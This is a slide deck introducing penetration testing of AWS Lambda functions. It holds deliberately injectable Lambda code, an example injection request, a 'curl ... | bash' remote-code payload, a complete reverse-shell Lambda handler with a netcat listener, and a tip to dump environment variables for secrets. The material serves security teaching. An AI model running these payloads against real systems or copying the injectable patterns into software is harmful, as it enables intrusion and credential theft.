

# Pentesting AWS Lambda Functions
(Getting started)


### About Me - Riyaz Walikar
- [OWASP](https://owasp.org) Bangalore Chapter Lead
- null Bangalore [null - The Open Security Group](http://null.co.in)
- Chief Offensive Security Officer at Appsecco 
- @riyazwalikar | @wincmdfu
- blog.appsecco.com | ibreak.software


## What are AWS Lambda Functions?
- AWS Lambda is a compute service that lets you run code without provisioning or managing servers. 
- AWS Lambda executes your code only when needed and scales automatically, from a few requests per day to thousands per second. 
- You pay only for the compute time you consume - there is no charge when your code is not running.
- FaaS (Function as a Service)


### So basically?
- A way to execute code on a short lived server
- Code (Function) is called, executed, server terminated when a request is made or when a trigger occurs
- Requests could be through standard browser (FF/Chrome), commandline (curl), API endpoints
- Triggers can be configured for various events in AWS. Event Fired -> Trigger Lambda Function


It is important to note that all of this is still over HTTP


## What does an attacker see?


A HTTP endpoint (web application) with parameters, input and output


A short lived server


### Demo
(what an AWS Lambda Function looks like)

https://console.aws.amazon.com/lambda/home?region=us-east-1#/functions/randomPass?tab=graph


https://4vnibh9w3i.execute-api.us-east-1.amazonaws.com/prod/randomPass

(AWS API Gateway + Lambda Function)


### How do we pentest this?
- Standard Web Application Penetration Test approach still applies
- Fuzz parameters
- Test for Injection, Reflection, Sensitive Data Exposure
- Security Misconfigurations in terms of server side access


### Vuln AWS Lambda Function (App)


https://../getHeaders?url=https://null.co.in
```
def getheaders(event, context):
    from subprocess import Popen, PIPE, STDOUT
    cmd = 'curl -I -s ' + event["url"]
    p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE)
    output = p.stdout.read()
    return output
```


#### Demo
https://fjmlbxdqu3.execute-api.us-east-1.amazonaws.com/prod/getHeaders
<aside class="notes">
Newlines can be cleaned up using some bash-fu: sed 's/\\n/\n/g'
curl https://fjmlbxdqu3.execute-api.us-east-1.amazonaws.com/prod/getHeaders?url=https://x41.co%20%26%20/sbin/ifconfig | sed 's/\\n/\n/g'
</aside>


### Vuln AWS Lambda Function (Trigger)


```
def s3trigger(event, context):
    s3 = boto3.client('s3')
    for record in event['Records']:
        bucket = record['s3']['bucket']['name']
        key = record['s3']['object']['key']
        download_path = '/tmp/{}'.format(key)
        s3.download_file(bucket, key, download_path)

        cmd = 'ls -ltra /tmp/' + key
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE)
        output = p.stdout.read()
        print output
    return key
```


#### Demo
`; curl hosted.exploit.cxm | bash`


## Reverse shell with Lambda
- Create a lambda function with the following code (set timeout to 5 min)

```
import socket,subprocess,os

def lambda_handler(event, context):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("your-server",9090))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/bash","-i"])
    return 'Exiting..'
```


- Run netcat in listening mode on port 9090 on your server

```
nc -lvp 9090
```


- Save the lambda function and click Test





### Quick commands to explore
- Prints the name, version and other details about the current machine
```
uname -a
```
- Print environment variables (find secrets and keys!)
```
printenv
```


## To Do


### What about persistence?
- Read-Only FS on /var/task
- Ephemeral Disk - /tmp/ (cached in memory across executions)
- As long as the function is kept warm


## References
- https://docs.aws.amazon.com/lambda/latest/dg/getting-started.html
- https://codeburst.io/aws-lambda-functions-made-easy-1fae0feeab27
- https://github.com/wickett/lambhack
- https://github.com/torque59/AWS-Vulnerable-Lambda
- https://www.blackhat.com/docs/us-17/wednesday/us-17-Krug-Hacking-Severless-Runtimes.pdf
- https://www.youtube.com/watch?v=YZ058hmLuv0
- http://www.tothenew.com/blog/aws-lambda-invocation-using-amazon-s3-invocation/


### About Me - Riyaz Walikar
- @riyazwalikar | @wincmdfu
- blog.appsecco.com | ibreak.software